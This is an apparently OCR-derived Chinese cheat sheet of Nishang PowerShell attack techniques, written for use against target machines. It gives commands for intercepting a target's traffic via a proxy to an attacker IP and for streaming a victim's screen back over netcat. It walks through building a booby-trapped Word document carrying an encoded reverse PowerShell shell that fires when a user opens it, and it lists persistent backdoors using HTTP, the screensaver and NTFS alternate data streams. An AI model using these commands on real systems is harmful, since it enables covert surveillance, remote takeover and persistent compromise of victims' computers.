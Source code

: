```pythn


## 内网嗅探

动静很大，实在没有办法的时候可以试试
目标机执行以下命令
Invoke-Interceptor -ProxyServer 192.168.250.172 -ProxyPort 9999
本机监听
nc -lvvp 9999



## 屏幕窃取   Show-TargetScreen

#本机可以使用nc获取powercat进行监听（在本地使用支持MJPEG的浏览器比如firefox，访问本机对应监听端口，即可在浏览器上看到从远端传输回来的实时画面，正向反向均可）
Show-TargetScreen -Reverse -IPAddress 192.168.230.1 -Port 443   # 将远程的画面传输给 192.168.230.1 的443端口
参数： Bind --> 正向连接

在目标机执行以下命令（反向连接）
Show-TargetScreen  -IPAddress 192.168.230.172 -Port 3333
本机输入以下命令 ，接着访问本机的9999端口
nc -nlvp 3333 | nc -nlvp 9999


正向连接
目标机执行：
Show-TargetScreen -Bind -Port 3333
本机执行：
nc -nv 192.168.230.37 3333 | nc -lnvp 9999





## Client 的生成(类似木马)

需要自己绑定payload
首先在本机监听：
nc -lvp 4444
接着制作word文件，打开\nishang\Shell\Invoke-PowerShellTcpOneLine.ps1文件，复制第三行的内容，可以看到有一个`TcpClient`的参数，这就是远程连接的地址，把他改为本机的IP和你监听的端口，改完以后复制代码，在命令行下如下执行
Invoke-Encode -DataToEncode '复制的代码' -IsString -PostScript
执行完之后会在当前目录生成两个文件，一个是encode.txt， 一个是encodedcommand.txt
接着执行命令
Out-Word-PayloadScript .\encodedcommand.txt
会生成一个word文档，用户打开就中招，我们获取到反弹的powershell



##  后门

1.Http-Backdoor
可以帮助我们在目标机器上下载和执行powershell脚本，接收来自第三方网站的制定，然后在内存中执行powershell脚本

2.Add-ScrnSaveBackdoor
利用windows的屏保来留下一个隐藏的后门

3.Execute-OnTime
与Http-Backdoor相比，多了定时功能

4.Invoke-ADSBackdoor
使用NTFS数据流留下的一个永久后门
最恐怖的后门
```